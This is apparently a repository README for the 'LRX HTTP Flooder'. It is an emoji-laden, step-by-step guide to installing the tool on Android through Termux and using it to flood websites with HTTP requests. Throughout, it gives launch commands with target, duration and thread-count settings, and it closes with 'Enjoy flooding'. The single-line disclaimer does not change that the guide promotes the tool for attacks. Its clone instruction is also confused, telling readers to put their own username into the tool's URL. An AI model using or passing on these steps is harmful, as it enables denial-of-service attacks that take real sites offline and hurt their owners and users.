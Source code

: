 🚀 Ultimate Guide: Installing LRX HTTP Flooder on Mobile (Termux) 🚀
Welcome to the LRX HTTP Flooder installation guide for mobile devices! This tool is designed to perform powerful HTTP flood attacks and is branded exclusively for LRX users. Follow this step-by-step guide to unleash the power of the LRX HTTP Flooder from your Android device!

📝 Prerequisites
An Android device with Termux installed.
Basic knowledge of using the command line.
A stable internet connection.
Make sure your device has Python 3.x installed (Termux will handle it).
🌐 Step 1: Installing Termux
Download and install Termux from F-Droid (recommended) or GitHub.

🛠️ Step 2: Updating and Upgrading Termux
Open Termux and update packages:
pkg update && pkg upgrade -y
This ensures that you have the latest versions of installed packages.

🐍 Step 3: Installing Python and Pip
Install Python and the pip package manager:
pkg install python -y
pip install --upgrade pip

📂 Step 4: Cloning the LRX HTTP Flooder from GitHub
Clone the repository using Git:
pkg install git -y
git clone https://github.com/YourUsername/LRX-HTTP-Flooder.git
cd LRX-HTTP-Flooder
(Replace YourUsername with your actual GitHub username.)

🧰 Step 5: Installing Required Python Libraries
Install necessary libraries using pip:
pip install requests matplotlib

🚀 Step 6: Running the LRX HTTP Flooder
To start the attack, use the following command:
python lrx_http_flooder.py --target https://example.com --duration 300 --threads 600
Replace the target URL, duration, and number of threads as needed.

💡 Example Usage
python lrx_http_flooder.py --target https://example.com --duration 600 --threads 1000
This will run the flooder against the specified target for 600 seconds with 1000 threads.

📝 Log and Status Monitoring
While running, the tool will display:

Total packets sent
HTTP status codes
Real-time request logs
🛑 Step 7: Stopping the Attack
To stop the attack, press:

objectivec
CTRL + C
✅ Troubleshooting
If you encounter errors related to Python libraries, reinstall them:
pip install --force-reinstall requests matplotlib

If the script doesn’t execute, make sure it has executable permissions:
chmod +x lrx_http_flooder.py

⚠️ Disclaimer
This tool is intended for educational and testing purposes only. Unauthorized use of this tool on third-party systems is illegal and punishable by law. Use responsibly and only on systems you own or have permission to test.

💬 Support
If you encounter any issues, feel free to open an issue on the GitHub repository or contact us via the support page.



ALL TERMUX CODE

pkg update && pkg upgrade -y
pkg install python -y
pip install --upgrade pip
pkg install git -y
git clone https://github.com/YourUsername/LRX-HTTP-Flooder.git
cd LRX-HTTP-Flooder
pip install requests matplotlib
python lrx_http_flooder.py --target https://example.com --duration 300 --threads 600


Enjoy flooding with the power of LRX! 🔥
